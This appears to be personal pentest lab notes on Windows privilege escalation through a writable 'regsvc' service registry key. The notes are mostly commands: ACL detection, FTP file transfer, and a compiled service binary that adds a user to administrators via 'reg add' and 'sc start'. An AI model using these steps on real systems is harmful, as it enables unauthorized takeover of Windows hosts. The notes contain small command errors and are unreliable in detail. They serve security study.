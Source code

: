 
## Regsvc ACL Overview
We are gonna test if we have full control over a register key.

If the answer is oui, we can compile a malicious executable writen in C and make that executable run a command

### Detection
in powershell:
```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
# The correct output should be: our current user has FullControl
```

### Escalation
In kali open a FTP server:
```bash
python -m pyftpdlib -p 21 --write
```

In Windows:
```bash
# send the file. 
ftp <kali ip> > log with anonymous > put windows_service.c
```

In kali with the file in hand:
```bash
# we are gonna edit
# replace the command in the payload session > system("here")

cmd.exe /k net localgroup administrator user /add
```

> use **sudo apt install gcc-mingw-w64** if needed

```powershell
x86_x64-w64-mingw32-gcc windows_service.c -o x.exe
```

Send the x.exe to the C:\Temp of the Windows Machine:
```powershell
reg add HKLM\System\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
net localgroup administrators
# the 'user' got added
```



# Escalation Path: Executable Files


## Detection
